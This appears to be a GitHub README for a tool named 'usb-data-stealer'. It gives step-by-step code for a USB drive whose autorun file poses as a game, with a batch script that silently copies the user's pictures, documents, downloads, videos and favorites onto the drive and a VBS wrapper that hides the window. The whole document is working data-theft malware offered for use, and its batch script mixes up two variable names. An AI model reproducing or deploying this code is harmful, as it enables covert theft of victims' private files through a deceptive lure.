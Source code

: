 # usb-data-stealer




Step 1: Open notepad.

[autorun] 
icon=Devicon.ico
label=Apple Pendrive
open=launch.bat
action=Click ok to Run game for Windows
shell\open\command=launch.bat

Save As...autorun.inf

Step 2:

@echo off
:: variables
/min
SET odrive=%odrive:~0,2%
set backupcmd=xcopy /s /c /d /e /h /i /r /y
echo off
%backupcmd% "%USERPROFILE%\pictures" "%drive%\all\My pics"
%backupcmd% "%USERPROFILE%\Favorites" "%drive%\all\Favorites"
%backupcmd% "%USERPROFILE%\videos" "%drive%\all\videos"
%backupcmd% "%USERPROFILE%\Downloads" "%drive%\all\Downloads"
%backupcmd% "%USERPROFILE%\Documents" "%drive%\all\Documents"
@echo off 
cls

Save as...file.bat

Step 3:

CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False

Save as...invisible.vbs

Step 4:

wscript.exe \invisible.vbs file.bat 

Save as...launch.bat

Step 5:

copy all the 4 files to pendrive.
